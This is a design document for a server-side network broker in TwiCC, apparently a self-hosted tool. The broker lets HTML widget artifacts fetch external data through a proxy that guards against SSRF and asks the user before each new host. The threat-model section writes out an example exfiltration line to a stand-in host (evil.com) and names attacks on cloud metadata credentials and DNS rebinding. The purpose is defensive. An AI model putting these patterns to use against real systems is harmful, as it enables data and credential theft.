

# Artifact Network Broker — Design

**Status:** design / not started. Open questions O1–O5 resolved 2026-06-18 (§14). Hand-off document for an implementing agent working in a separate worktree.
**Date:** 2026-06-18.
**Scope:** let interactive HTML artifacts ("widgets") make outbound network calls (to aggregate external data) without hitting browser CORS, through a server-side broker — every target gated by an informed, server-resolved per-host user prompt, with the cloud metadata endpoint blocked unconditionally.

> This document is self-contained. It assumes no prior knowledge of the conversation that produced it, but it does assume you can read the TwiCC codebase. Read [§11 File map](#11-file-map-current-code) early — it points at every place the current code already does the relevant work.

---

## 1. Background (what an artifact is, today)

TwiCC renders **artifacts** — user/agent-produced deliverables stored under a per-session directory (`{artifacts_base_dir}/{session_id}/`). Among the supported types is **HTML**: a self-contained page (its own `index.html` + relative CSS/JS/assets in a subfolder) that TwiCC renders in an **`<iframe>`**.

There are **two contexts** in which an HTML artifact runs, and both matter for this feature:

1. **Inside the TwiCC SPA** — `frontend/src/components/files/FilePane.vue` shows the artifact in an `<iframe>` whose `src` points at a raw-serving endpoint. The parent window is the TwiCC Vue app (which holds a live WebSocket to the backend). Current iframe (FilePane.vue ~line 1217):
   ```html
   <iframe
     :src="htmlPreviewSrc"
     sandbox="allow-scripts allow-same-origin allow-forms"
   ></iframe>
   ```
   `htmlPreviewSrc` resolves to `/api/file-raw/<b64root>/<path>` (standalone/Artifacts-tab scope) or `/api/projects/<id>/sessions/<sid>/file-raw/<path>` (project scope). Both stream bytes via `_raw_file_response` (`src/twicc/views.py`).

2. **In a dedicated page** — a bookmarked artifact can be opened in its own browser tab via `/artifacts/<bookmark_id>/` (served by `artifact_serve` in `src/twicc/views.py`, which also reuses `_raw_file_response`). This page is **not** the SPA; it has no WebSocket and none of the app's machinery. Today it serves the artifact's `index.html` **directly as the top-level document** (no wrapper).

Everything is served from the **TwiCC origin** (same host as the app). The iframe currently uses `allow-same-origin`, so the artifact document is same-origin with the app.

**Auth:** when `TWICC_PASSWORD_HASH` is set, `PasswordAuthMiddleware` (`src/twicc/auth/middleware.py`) gates all `/artifacts/*` (and `/api/*`) requests behind the session cookie. `/artifacts/*` is in `PROTECTED_NON_API_PREFIXES`. Unauthenticated artifact navigations are redirected to a standalone password page (`/artifacts/auth`); unauthenticated image requests get a placeholder SVG instead of a redirect.

---

## 2. The problem

Widgets are most useful when they can pull data from external services (a weather API, a GitHub API, a metrics endpoint, …). But a widget's JS runs in the browser, so it is subject to **CORS**: when it calls an API that does not send `Access-Control-Allow-Origin`, the browser blocks reading the response. This rules out a large class of useful widgets — especially when TwiCC runs behind a tunnel with a real hostname (not just `localhost`), where even more cross-origin combinations break.

**Key fact this feature relies on:** CORS is a *browser-enforced* protection. A request made *server-side* is not subject to it. So a server-side proxy ("fetch broker") can fetch the external resource and hand it back to the widget from TwiCC's own origin, which the browser accepts.

---

## 3. Threat model — read this before designing anything

The naive version ("an endpoint that fetches any URL for the widget") is a textbook **SSRF** (Server-Side Request Forgery). The single most important part of this design is bounding that. Be precise about what is *new* risk vs. what already exists.

### 3.1 What is ALREADY possible today (a broker does NOT make this worse)

- **Exfiltration to the public internet.** CORS blocks *reading* a cross-origin response, not *sending* the request. A widget can already do `fetch('https://evil.com/?d=' + secret)`, `new Image().src = …`, `navigator.sendBeacon(…)`, etc. The request leaves the browser regardless of CORS. So a malicious/compromised artifact can already exfiltrate.
- **Reading from CORS-permissive servers** (`Access-Control-Allow-Origin: *`). Already works without us.

A broker therefore introduces **no new exfiltration channel** and **no new "make a network call" capability**.

### 3.2 What a broker WOULD newly enable (the delta to control)

1. **The server's network vantage point.** Today the widget's `fetch` originates from the *browser* (the user's machine/network). A broker makes requests originate from the *server*, which can reach:
   - `127.0.0.1` / the server's own `localhost` services (the TwiCC backend itself, a DB, sibling apps),
   - private LAN ranges (`10/8`, `172.16/12`, `192.168/16`, IPv6 ULA `fc00::/7`),
   - **link-local / cloud metadata** `169.254.0.0/16` — notably `169.254.169.254` (AWS/GCP/Azure metadata → IAM credentials). Silent, catastrophic.
   These are **physically unreachable from the browser** when the server is not the user's own machine (the tunnel/VPS case — exactly when this feature is wanted).
2. **Reading responses from non-CORS / internal servers.** The broker's whole point is to return the response body. Combined with exfiltration (already possible), this closes the loop *read internal secret → exfiltrate it*. Today the "read internal" half is what's blocked.

### 3.3 The trust boundary is the widget's JS — so consent must be per-request and honest

The trust boundary is **not "the user"** — it is **"whatever JS ends up in the artifact"**. Artifacts are frequently **agent-generated**, the agent can be prompt-injected (the premise of TwiCC's whole security posture), and a widget can pull a third-party library. So the artifact's JS is untrusted, and the password (which only stops an anonymous internet stranger) does nothing against the user's own tainted widget.

The control is therefore **not** a password and **not** a blanket block of internal ranges. It is an **informed, per-request user prompt**: TwiCC is single-user and self-hosted, so the person who owns the deployment is the same person clicking the prompt. Each new target is shown to that person, who allows or denies it. For this consent to mean anything, the prompt must show the **true** destination (see §3.5): a domain name can point anywhere — including the server's own `127.0.0.1` — so the server resolves it and the prompt reveals what it *actually* hits, not just the name the widget typed.

### 3.4 Deployment does not change the policy — resolution is always server-side

What varies between deployments is only *where the server runs* and *how the user reaches it* (local browser, or a tunnel from a phone / another machine). Neither changes the rule, because **every request is resolved and made by the server**, and the policy is **uniform**:

- `localhost` always means *the machine TwiCC runs on*, resolved server-side — never the browser's machine. Accessing TwiCC through a tunnel must **not** stop a widget from reaching that machine's local services; the access method never enters the decision.
- There is therefore **no "local vs remote" special-casing, no flag, and no deployment auto-detection** (impossible to do reliably anyway). The same prompt-driven control applies everywhere, and only the cloud metadata address is ever hard-blocked.

### 3.5 Security conclusion (the non-negotiables)

The server-enforced boundary reduces to **two** hard controls, plus user consent for everything else:

1. **Block the cloud metadata address unconditionally.** `169.254.169.254` (and its known IPv6 / alias forms) is never reachable — no prompt, no allowlist entry, no "allow once", ever. It is the one target with **no** legitimate use and a **catastrophic** downside (it hands out the cloud instance's IAM credentials). Absolute and not user-overridable.
2. **Resolve server-side, pin the IP, and make the prompt honest.** A domain name can point anywhere, including the server's own `127.0.0.1` or LAN. So the broker resolves the hostname once, **pins** the outbound connection to that validated IP (defeating DNS rebinding between resolution and connect), refuses to follow redirects, and reports the **true** resolved destination (the IP and whether it is loopback / private-LAN / public) so the prompt shows what the request *actually* hits — not just the name the widget supplied.

Everything else — `localhost`, LAN, and public hosts alike — is reachable **with the user's informed consent** via the per-host prompt (allow once / allow forever / deny). There is **no** blanket block of private/loopback/LAN ranges: in a single-user self-hosted tool, an honest prompt to the operator *is* the boundary for those. (The metadata block in (1) is the sole exception, because there a single mistaken click is unrecoverable.)

---

## 4. Architecture overview

Four layers. Three are enforcement/transport; the security boundary is the server proxy (egress) plus CSP (egress lockdown in the browser).

```
┌─────────────────────────── browser ───────────────────────────┐
│                                                                 │
│  ┌─ HOST (trusted TwiCC code) ──────────────────────────────┐  │
│  │  • owns the <iframe>                                      │  │
│  │  • penpal endpoint exposing proxyFetch()                  │  │
│  │  • shows the allow/deny prompt                            │  │
│  │  • calls the server proxy (same-origin, no CORS)          │  │
│  │                                                           │  │
│  │   ┌─ IFRAME (untrusted artifact) ──────────────────────┐ │  │
│  │   │  • CSP: connect-src 'none'  → cannot reach network  │ │  │
│  │   │  • injected shim: @mswjs/interceptors patches       │ │  │
│  │   │    fetch + XHR transparently → penpal → HOST        │ │  │
│  │   │  • widget code uses plain fetch(), libs included     │ │  │
│  │   └─────────────────────────────────────────────────────┘ │  │
│  └───────────────────────────────────────────────────────────┘  │
└────────────────────────────────┬────────────────────────────────┘
                                  │ same-origin fetch to /…/artifact-proxy
                                  ▼
                    ┌─ SERVER PROXY (Django, async) ─┐
                    │  • resolve + pin IP             │
                    │  • block metadata (absolute)    │
                    │  • report TRUE target to host   │
                    │  • per-bookmark host allowlist  │
                    │  • strips TwiCC cookie outbound │
                    │  • size/timeout caps            │
                    └───────────────┬─────────────────┘
                                    ▼  (no CORS server-side)
                              external host
```

- **Why does the host call the server proxy rather than the external host directly?** Because the host is *also* in the browser — a direct `fetch(externalUrl)` from the host would hit CORS too, **and** the server-side controls (resolve + pin IP, block metadata, report the true target) can only run server-side. The server proxy is the only real egress. The host is purely broker + UI.
- **Why postMessage between iframe and host (not let the iframe call the proxy itself)?** So the prompt is handled by the host **client-side**, with no dependency on a backend→browser push channel. This makes the *same mechanism* work in both contexts (the dedicated page has no WebSocket — see §5). It also lets the iframe's CSP be `connect-src 'none'` (tightest possible), since the iframe never needs to reach anything but its parent via postMessage.

### The "pause then resume" property (a hard requirement from the user)

When a widget calls `fetch()` for a not-yet-allowed host, the page must **block on that call** while the user is asked, and **resume exactly where it was** on approval — no reload. This falls out naturally: a `fetch` is a Promise; the injected shim turns it into a penpal RPC to the host; the host does not resolve that RPC until the user has answered. So the widget's `await` is suspended; on approval the host fetches via the proxy and resolves the RPC; the widget continues. The JS execution context is never torn down.

---

## 5. The two run contexts (only the host differs)

The **contract is fixed**: artifact in an iframe + a trusted host exposing `proxyFetch` over penpal. Only *who the host is* changes.

| | Host | Where the prompt shows | How host reaches the proxy |
|---|---|---|---|
| **In TwiCC SPA** | the FilePane preview wrapper (Vue) | inline in the SPA (existing UI surface) | `fetch('/api/.../artifact-proxy')` |
| **Dedicated page `/artifacts/<id>/`** | a new thin **shell page** TwiCC serves, which iframes the real artifact | inside the shell page | `fetch('/artifacts/<id>/proxy')` (or shared `/api/...`) |

**Structural change to the dedicated page:** `/artifacts/<id>/` must stop serving the artifact's `index.html` directly and instead serve a **shell** (trusted, minimal HTML+JS) that embeds the real artifact in an inner iframe (e.g. the artifact moves to `/artifacts/<id>/_doc/` or the shell points its iframe at the existing `artifact_serve` path with a marker). The shell runs the same broker/host code as the SPA wrapper — share one module.



---

## 6. Component 1 — the server proxy (the security boundary)

A new Django **async** view. Lives naturally next to the existing artifact serving (`src/twicc/views.py`) and is auth-gated by the existing `PasswordAuthMiddleware` if placed under `/artifacts/` or `/api/`.

### 6.1 Endpoint

Decided (O1): `POST /api/artifact-proxy/` (under `/api/`, so the existing auth gate applies and JSON 401s are returned for unauth — the host is JS and can handle that). One shared endpoint for **both** run contexts; the artifact identity travels in the body (so non-bookmarked previews are covered too). In both contexts the caller already holds the session cookie — the dedicated page obtained it via `artifact_auth` (`/artifacts/auth`) before the shell loaded. Body identifies the artifact (so the allowlist can be resolved) and carries the serialized request:

```jsonc
{
  "bookmark_id": 123,            // resolves the per-artifact allowlist + the session for confinement
  "mode": "preflight" | "fetch", // preflight = resolve + classify only (to build the prompt); fetch = actually call
  "grant": "once" | null,        // host-supplied: user approved this exact target for a one-shot
  "pinned_ip": "203.0.113.5",    // fetch mode: the IP shown in the prompt and approved (defeats rebinding)
  "request": {
    "url": "https://api.example.com/data?…",
    "method": "GET",            // any HTTP method: GET/POST/PUT/PATCH/DELETE/…
    "headers": { "accept": "application/json", … },   // see 6.5 (filtered)
    "body": "…"                  // base64 or text; omit for GET/HEAD
  }
}
```

Preflight response (resolution only, no outbound call): `{ "target": { "ip": "203.0.113.5", "kind": "public" | "loopback" | "lan" } }`, so the host can show the **true** destination in the prompt. If the target is the metadata address: `{ "error": "blocked", "reason": "metadata" }` — never reachable; the host renders it as refused, with no allow option.

Fetch response: `{ "status": 200, "statusText": "OK", "headers": {…filtered…}, "body": "…" }` (body base64 for binary). Errors use a distinct shape the host can present (e.g. `{ "error": "blocked", "reason": "metadata" }`, or `{ "error": "upstream", … }`).

> Why not GET with `?url=`? Avoid putting target URLs (and any embedded tokens) in query strings/logs; POST keeps them in the body. Also dovetails with the privacy rule "never place sensitive data in URL params."

### 6.2 Server-side resolution, metadata block, honest target (the security boundary)

This is the part that must be correct. The boundary is **not** a block of internal ranges (see §3.5) — it is:

1. **Scheme.** Reject anything that is not `http`/`https` outright. **All HTTP methods are allowed** (GET/POST/PUT/PATCH/DELETE/…); the only scheme constraint is `http`/`https`. **WebSocket (`ws`/`wss`) is explicitly out of scope** — an accepted limitation for now (proxying WS, especially its auth, is materially harder); the iframe's `connect-src 'none'` already blocks direct WS as well, so widgets simply cannot open a WebSocket. See §13.
2. **Resolve once, pin the IP.** Resolve the hostname to its IP(s) **once**, validate every returned address, and make the outbound request **pinned to that validated IP** (preserving `Host`/SNI; e.g. custom resolver / connecting by IP). This defeats DNS rebinding — a name that resolves to a public IP when the prompt is shown and to an internal one at connect-time can no longer flip, because the connection is pinned to the exact IP that was classified (and, for a fresh approval, the exact IP the user approved — `pinned_ip`).
3. **Block the cloud metadata address — unconditionally.** `169.254.169.254` (IPv4) plus its known IPv6 / alias forms is **never** reachable: no prompt, no allowlist entry, no "allow once", ever. Detect it explicitly. This is the *only* absolute, non-overridable block.
4. **Everything else is reachable with the user's consent — uniformly.** loopback (`127.0.0.1`, `::1`), private LAN (`10/8`, `172.16/12`, `192.168/16`, `fc00::/7`) and public hosts are **not** blocked by range. The proxy instead **classifies** the resolved IP as `loopback` / `lan` / `public` and returns that to the host (the *kind*, alongside the IP) so the prompt can show the **true** target — e.g. "`api.x` → `127.0.0.1` (this server's localhost)". A name can therefore never masquerade as an innocent public host while pointing at the server's own loopback/LAN: the user consents to the real destination. No special-casing of "local" vs "remote", no opt-in/flag, no deployment detection — the access method (local vs tunnel) never enters the decision because resolution is server-side.
5. **Do not auto-follow redirects** (an allowed public host can 302 to an internal one — or to the metadata address). Disable redirects and surface them.
6. Apply a **response size cap** and a **timeout** (see §13 for the Cloudflare-tunnel ~100s ceiling).

Keep the classifier a small, unit-testable **pure function**: `classify_ip(ip) -> "metadata" | "loopback" | "lan" | "public"` (using `ipaddress.ip_address(...).is_loopback/.is_private/.is_link_local` plus the explicit metadata check). `metadata` ⇒ hard block; the other three ⇒ promptable, with the kind shown to the user. (The artifact's own same-origin assets are a separate, non-brokered path — see §6.6.)

**Rebinding on a pre-approved host (in v1 — validated 2026-06-18).** For a host already on the persisted allowlist, the proxy still resolves + pins + metadata-blocks on every fetch — and **re-classifies**. Because "allow forever" persists a *name*, a name approved as `public` that later rebinds to `loopback`/`lan` would otherwise reach internal services silently (no prompt, since the host is approved). So each allowlist entry **stores the approved kind** (§10), the proxy returns the freshly-resolved kind on every fetch, and the host **re-prompts when the kind changed** (§9) — e.g. "`data.cdn` now resolves to `127.0.0.1` (localhost) — still allow?". A genuinely-local tool approved as `loopback` stays `loopback` → no re-prompt. This completes the honest-target guarantee for "allow forever" (without it, "allow forever" re-opens the masquerade that "allow once" closes).

### 6.3 HTTP client

Use an async client already in the stack's orbit (the backend already does outbound HTTP for OpenRouter price sync / usage quotas — reuse that dependency rather than adding one; check `pyproject.toml` / those modules). The client must support: per-request timeout, disabling redirects, and connecting to a pinned IP (or wrap with a custom transport/resolver).

### 6.4 Allowlist (server-authoritative)

- Persisted per artifact on `ArtifactBookmark` (new field — §8). The host may read it (via the bookmark API) to decide whether to *prompt*, but the **proxy re-checks it server-side** before any outbound call. Never trust the client for the allow decision.
- `grant: "once"` lets the host authorize a single call to a host that is not in the persisted list. Acceptable trust-wise for a single-user tool: the iframe physically cannot call the proxy (its CSP is `connect-src 'none'`), so the proxy's caller is always the trusted host. "Allow once" **may** reach an internal target (`localhost`, LAN) — that is intended, with the user's informed consent on the honest prompt — but the **metadata block always applies** and the fetch is pinned to the exact approved IP, so consent can never be rerouted.
- Borrow the *rule shape* from KrakenJS `fetch-robot` (archived — do **not** depend on it): allow entries keyed by `origin`/`domain`/`path`/`method`/`headers`, default `credentials: omit`. For v1 the key is **`scheme` + `host` + `port`** (no per-path/method rules — deferred). **Port-by-port, not host-wide:** approving one port does **not** authorize the others. This matters most for internal hosts, where the port *is* the service — approving `localhost:9000` (a user's local tool) must never silently grant `localhost:5432` (their database) or `localhost:3502` (TwiCC itself). **Normalize the port** to its effective value (the explicit port, or the scheme default — 443/80 — when implicit) so matching is exact on `(scheme, host, port)` and an entry without an explicit port can't match a different one. Each entry also records the **approved kind** (`public`/`loopback`/`lan`) for the rebinding re-prompt (§6.2) — a security annotation, not per-path granularity, so it does not reopen O4.

### 6.5 Header & credential hygiene

- **Strip the TwiCC session cookie** (and any TwiCC auth header) from the outbound request — never forward ambient authority to a third party.
- Forward only a safe subset of request headers (default like fetch-robot: `accept`, `accept-language`, `content-language`, `content-type`); drop hop-by-hop and identity headers unless explicitly allowlisted.
- Return only a safe subset of response headers to the host.
- Per-host **secrets** (a user-stored API key injected for a given host) are a **separate, larger feature** — out of scope here. Note it as future work (§10).

### 6.6 Same-origin requests (the artifact's own assets) are NOT brokered

The artifact must reach its **own** files (its `data.json`, etc.) without a prompt. Two cases, handled differently:

- **Tag-based loads** (``, `<script src>`, `<link rel=stylesheet>`, `<audio>`, …) are governed by `img-src`/`script-src`/`style-src`/… `'self'` — **not** `connect-src`. They load directly and never touch the shim or the broker.
- **`fetch`/XHR to the artifact's own files** (`fetch('./data.json')`) *is* a `connect-src` call → blocked by `'none'` → intercepted by the shim → handed to the host. The host detects that the resolved URL is **same-origin within the artifact's own confined path** and serves it **directly**: the host is trusted TwiCC code, not under the iframe's CSP — in the SPA it fetches the existing `file-raw` endpoint; in the dedicated page the shell fetches the inner-doc path. **No prompt, no server proxy, no SSRF check** — it is a confined read of the artifact's own bundle.

  **Confinement is mandatory.** Same-origin auto-serve is restricted to the artifact's own directory (reuse `confined_artifact_path`). A same-origin URL that escapes that scope — `/api/…`, another session's artifacts, the proxy endpoint itself — is **denied**, so this channel can never be turned into "the widget calls TwiCC's own API with the ambient session cookie."

The dividing line for the whole feature: *same-origin within the artifact → host serves locally (confined, no prompt); cross-origin → prompt + allowlist + server proxy + SSRF guard.* Only cross-origin requests are "brokered."

---

## 7. Component 2 — CSP (egress lockdown in the browser)

The hard in-browser control. Set as a **response header** by TwiCC on the **served artifact HTML document** (header CSP cannot be relaxed by the page; covers WebSockets, which a Service Worker cannot — see §12 rejected alternatives).

Apply to **every path that serves an artifact HTML document**: both `artifact_serve` (dedicated) and the `file-raw` HTML responses (in-SPA preview). Factor a shared helper "serve an HTML artifact document" that (a) injects the shim (§8/§9... no — the shim, see component 3) and (b) sets the CSP. Sub-assets (CSS/JS/images of the artifact) do not need the document CSP, but must remain loadable (`'self'`).

Baseline directive (tune during implementation):

```
Content-Security-Policy:
  default-src 'none';
  script-src 'self' 'unsafe-inline';
  style-src  'self' 'unsafe-inline';
  img-src    'self' data: blob:;
  font-src   'self' data:;
  media-src  'self' blob:;
  frame-src  'self';
  worker-src 'none';
  connect-src 'none';
  base-uri 'none';
  form-action 'none';
```

Notes:
- `connect-src 'none'` = the iframe can make **no** network call (fetch/XHR/WebSocket/EventSource/sendBeacon/`<a ping>`). Its only exit is `postMessage` to the host (postMessage is not a network request → not subject to `connect-src`).
- `'unsafe-inline'` for script/style is **acceptable here on purpose**: the artifact *is* the untrusted script by design; CSP's job in this feature is **network-egress control**, not protecting the widget from itself. We don't control widget markup, so nonces/hashes aren't practical.
- **Inheritance:** child browsing contexts the artifact may create with local schemes (`about:blank`, `about:srcdoc`, `blob:`, `data:`) **inherit this CSP** → a freshly-created iframe's pristine `fetch` is still blocked. `worker-src 'none'` forbids workers (which would otherwise have an un-patched, separately-policed network scope). This is why CSP — not the JS shim — is the real boundary.
- The injected shim script is served from a stable same-origin URL → allowed by `script-src 'self'` (or inline under `'unsafe-inline'`).

---

## 8. Component 3 — the injected client shim (transparency)

Goal: the agent writes **normal** `fetch`/`XHR` code, third-party libs work unchanged, and *we* must not hand-roll a fragile interceptor or response serializer. Two mature libraries do the heavy lifting.

### 8.1 Libraries (chosen)

- **`@mswjs/interceptors`** (the low-level engine under Mock Service Worker; actively maintained). Browser preset = `FetchInterceptor` + `XMLHttpRequestInterceptor` via `BatchInterceptor`. It patches `fetch` and `XHR`, normalizes every intercepted call to a Fetch-API `Request`, and lets you **respond** with a `Response` you supply (`controller.respondWith(...)`). This solves both "intercept transparently" and "normalize request/response" — we don't reinvent it.
- **`penpal`** (best-maintained postMessage RPC; promise-based; origin checks; channels; timeouts; iframe + worker support). The transport between the in-iframe shim and the host. We don't hand-roll message correlation / origin validation.

### 8.2 Shim behavior (runs first, inside the iframe)

1. Connect to the host via penpal (host exposes `proxyFetch(serializedRequest) → serializedResponse`).
2. Install `BatchInterceptor` with the browser preset. On each `request`:
   - serialize the `Request` to `{ url, method, headers, body }` (penpal payloads must be structured-cloneable; `Request`/`Response` objects are not — extract plain fields; body as text/arraybuffer),
   - `await proxyFetch(...)`,
   - reconstruct a `Response` from `{ status, statusText, headers, body }` and `controller.respondWith(it)`.
3. The widget/lib sees a normal `Response`. Transparent.

### 8.3 Injection mechanism (server-side)

The shim must execute **before any artifact script** (no race). Since TwiCC serves the HTML, inject server-side: when serving an artifact **HTML document** (the shared helper from §7), parse the bytes and insert `<script src="/<stable>/artifact-broker-shim.js"></script>` as the **first child of `<head>`** (or inline the script). This requires special-casing `text/html` in the serving path: `_raw_file_response` currently streams raw bytes via `FileResponse`; for the HTML *document* you'll instead read+inject+return an `HttpResponse` (sub-assets keep streaming untouched). Do this only for the top-level document, not for every file.

### 8.4 The shim is DX, not security

A determined artifact can still obtain an un-patched network primitive (a fresh iframe, a worker, an exotic sink). **That's fine:** CSP `connect-src 'none'` (+ inheritance + `worker-src 'none'`) means any such attempt is **blocked**, not leaked. So the shim only needs to cover the *happy path* (`fetch` + `XHR`, which is what libraries use); the CSP covers everything it misses. Worst case of a missed sink = a broken request, never an escape.

---

## 9. Component 4 — the host (broker + prompt UI)

One shared module, two mounts (SPA wrapper, dedicated shell). Responsibilities:

1. **penpal parent** exposing `proxyFetch(req)`.
2. On a call: **first, if the request is same-origin within the artifact's own confined path, serve it directly — no prompt, no proxy (see §6.6).** Otherwise resolve the artifact's persisted allowlist (from the bookmark). If the target host is allowed → call the server proxy (fetch mode); if the proxy reports the freshly-resolved **kind changed** from the approved one (§6.2), treat it as unknown and re-prompt instead of resolving silently, otherwise resolve. If not → **preflight the proxy** to get the true resolved target (IP + kind), then **show the prompt** built from that real destination, **with the port shown** — e.g. "Allow `localhost:9000` → `127.0.0.1` (this server's localhost)?" (Allow once / Allow this `scheme://host:port` for this artifact / Deny). If the preflight reports the metadata address, render it as refused (no allow option). Keep the penpal promise pending meanwhile (this is the "pause"). On:
   - **Allow once** → call the proxy with `grant:"once"`, resolve.
   - **Allow forever** → persist the normalized `scheme://host:port` (+ its kind) onto the bookmark (PATCH endpoint, §10), then call the proxy, resolve.
   - **Deny** → reject the penpal promise (the widget's `fetch` rejects; widget handles or fails gracefully).
3. Concurrency: queue/batch multiple pending prompts for different hosts.

**Non-bookmarked HTML previews** (the in-SPA preview can render any `.html` in the tree, not only bookmarked artifacts): they have no persisted allowlist target. Decision (O2, confirmed): the broker still works, but only **Allow once** is offered (there's nowhere to persist "forever"). "Allow forever" appears only when there is a bookmark.

---

## 10. Data model & API changes

- **`ArtifactBookmark`** (`src/twicc/core/models.py`, ~line 582): add `allowed_hosts` — a small JSON list of approved entries (default empty), each `{ "host": "scheme://host:port", "kind": "public" | "loopback" | "lan" }` with the **port normalized** to its effective value (scheme default when implicit). This is the persisted per-artifact allowlist, keyed exactly on `scheme+host+port` (port-by-port — §6.4); the `kind` drives the rebinding re-prompt (§6.2).
  - Migration required (remind the user to run it; `devctl.py start` auto-applies — never run `migrate` by hand to bring servers up).
  - Extend `serialize_artifact_bookmark` (`src/twicc/core/serializers.py`).
  - Add an endpoint (or extend `artifact_bookmark_detail` PATCH, `src/twicc/views.py` ~3177) to append/remove an allowed host. Route mutations through the shared service `twicc/core/services/artifact_bookmark_mutation.py` so the CLI drop-request path stays aligned (existing pattern: `kind="artifact_bookmark:upsert"`).
- **New backend module** for the proxy + resolution/metadata guard (e.g. `src/twicc/artifacts/proxy.py` — the `twicc.artifacts` package already exists for artifact-facing web resources). Keep the classifier a small, unit-testable pure function (`classify_ip(ip) -> "metadata" | "loopback" | "lan" | "public"`); `metadata` ⇒ hard block, the rest ⇒ promptable with the kind shown to the user.
- **New routes** in `src/twicc/urls.py`: the proxy endpoint; the dedicated-page shell (or adapt `artifact_serve` to serve the shell at `/artifacts/<id>/` and the raw doc at a sub-path).
- **Frontend deps:** `@mswjs/interceptors` and `penpal` (remind the user to `npm install`; `devctl.py start` runs `npm ci` via the editable rebuild — never pre-run it). New shared host module + shim bundle (the shim must be buildable to a standalone JS file served at a stable URL).

---

## 11. File map (current code)

| Concern | Location |
|---|---|
| In-SPA HTML preview iframe (`sandbox`, `src`) | `frontend/src/components/files/FilePane.vue` (~200–290 state, ~1217 iframe, ~1260 "open in tab" link) |
| Raw byte serving (shared) | `src/twicc/views.py` `_raw_file_response` (~1721), `_guess_raw_content_type` (~1711) |
| Dedicated artifact serving | `src/twicc/views.py` `artifact_serve` (~3229), `artifact_redirect_to_slash` (~3223) |
| Path confinement | `twicc/core/services/artifact_bookmark_mutation.py` `confined_artifact_path` |
| Auth gate / public paths / image-vs-doc heuristic | `src/twicc/auth/middleware.py` (`PROTECTED_NON_API_PREFIXES`, `PUBLIC_PATHS`) |
| Standalone password page (pattern to reuse for the shell) | `src/twicc/auth/views.py` `artifact_auth`; template `src/twicc/artifacts/templates/artifact_auth.html`; `TEMPLATES` in `src/twicc/settings.py` |
| Artifact web-resources package | `src/twicc/artifacts/__init__.py` (assets + template dir; auto-shipped in the wheel because committed) |
| Bookmark model / serializer / endpoints | `src/twicc/core/models.py` (~582), `src/twicc/core/serializers.py`, `src/twicc/views.py` (~3127–3220) |
| WS broadcast pattern (if ever needed) | `channel_layer.group_send("updates", {"type":"broadcast","data":{…}})` throughout `views.py` |

---

## 12. Alternatives considered and rejected

- **Service Worker to intercept requests.** A SW *can* intercept cross-origin requests from controlled pages, but it is the wrong tool: (a) it does **not** intercept WebSocket/WebRTC and has a pre-control timing gap → leaky as a boundary; (b) a same-origin artifact can `getRegistrations().unregister()` the SW — the controlled code can disable its own controller; (c) isolating the artifact on an opaque origin to prevent that **disables** Service Workers entirely. CSP (header) is strictly better: page-immutable, covers WebSockets. Use CSP for enforcement, postMessage+shim for transport.
- **Parent patches `iframe.contentWindow.fetch` from the outside.** Requires same-origin (insecure: artifact can reach `window.parent`) and is racy (artifact scripts may run first). Inject the shim *into the served document* instead — transparent, origin-independent, not racy.
- **Server holds the request + pushes the prompt over WebSocket.** Works in the SPA but breaks on the dedicated page (no WS). The client-side broker (host resolves the penpal promise after the prompt) removes both the WS dependency and the need for a server-side held request — and is identical across contexts.
- **`fetch-robot` (KrakenJS) as a dependency.** Conceptually closest ("proxy fetch through an iframe" + a domain allowlist), but **archived 2025-01-31**, depends on the dormant `post-robot`, is **not transparent** (requires `proxy.fetch`), and uses the wrong model (iframe **on the target domain** for a pure browser CORS bypass, not a server proxy with an SSRF guard). Reuse only its **rule shape** as inspiration; do not depend on it.
- **Let the host fetch the external URL directly (no server proxy).** Fails: the host is in the browser → CORS again, and no server-side SSRF guard.

---

## 13. Caveats & limitations

- **Streaming / very large bodies.** Passing the response over penpal/postMessage is fine for JSON/text/arraybuffer but does **not** stream naturally (transferable streams exist but are extra work). Document "big download" widgets as a known limitation for v1.
- **WebSocket / non-HTTP protocols are unsupported (accepted limitation).** The broker proxies request/response HTTP(S) only — any method (GET/POST/PUT/PATCH/DELETE/…), but not `ws`/`wss` or other protocols. Proxying a WebSocket (long-lived, bidirectional, with its own auth handshake) is materially harder and deliberately deferred. The iframe's `connect-src 'none'` also blocks direct WS, so a widget cannot open one by any path; widgets must use plain `fetch`/XHR (polling instead of a socket where needed).
- **Timeouts & Cloudflare tunnels.** A held request must not hang forever; cap the prompt-to-resolution and the outbound fetch. **Cloudflare tunnels cut origin responses at ~100s (524).** Since the user mentioned tunnels, keep any server-side wait comfortably under that (≤60s) and make the prompt prominent; with the client-side broker the *prompt* wait is in the browser, not the held HTTP request, so this mainly bounds the outbound fetch timeout.
